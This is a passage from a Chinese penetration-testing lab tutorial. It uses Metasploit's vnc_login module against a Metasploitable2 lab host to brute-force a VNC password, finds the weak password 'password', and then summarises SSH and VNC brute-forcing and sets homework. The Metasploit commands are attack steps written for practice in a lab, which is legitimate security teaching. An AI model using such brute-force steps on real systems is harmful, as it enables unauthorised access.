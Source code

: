 配置暴力破解的线程数，线程数越多执行的会越快（当然受限制于当前机器的CPU配置），但配置的线程数越多则越容易被目标主机发现：

```
msf auxiliary(vnc_login) > set THREADS 5
THREADS = > 5
```

配置目标主机 IP 地址：
```
msf auxiliary(vnc_login) > set RHOSTS 192.168.122.102
RHOSTS = > 192.168.122.102
```

执行暴力破解：
```
msf auxiliary(vnc_login) > exploit
```

### 4.4 查看结果

很快 vnc_login 的攻击结果就出来了，因为 vnc 登录没有输入用户名只需要尝试各种常见的弱密码，结果可以看到 vnc 登录的密码为 `password`：

![此处输入图片的描述](../imgs/wm_7.png)

思考：为什么我们没有设置 vnc_login 的 userpass_file 字典文件也可以进行暴力破解攻击？

## 五、总结

### 5.1 总结

在本实验中，我们依旧基于实验楼环境下 Kali 的 MSF 终端，对渗透目标主机 Metasploitable2 的 SSH 服务和 VNC 服务进行暴力破解：

- Linux 基本操作命令
- MSF 终端下的攻击流程
- 暴力破解字典文件的理解
- 暴力破解 SSH 服务
- 暴力破解脚本解析
- 暴力破解 VNC 服务


## 六、课后作业

### 6.1 课后作业

完成以下作业，巩固实验知识：

- 3.7 中的 hydra 是否可以用来进行 VNC 暴力破解？
- 查找 VNC 攻击的脚本并阅读理解，有哪些与 SSH 攻击脚本不同的地方吗？
- 为什么我们没有设置 vnc_login 的 userpass_file 字典文件也可以进行暴力破解攻击？

对于不懂的问题，都可随时在[实验楼问答](https://www.shiyanlou.com/questions)中提出，与老师和同学一起交流。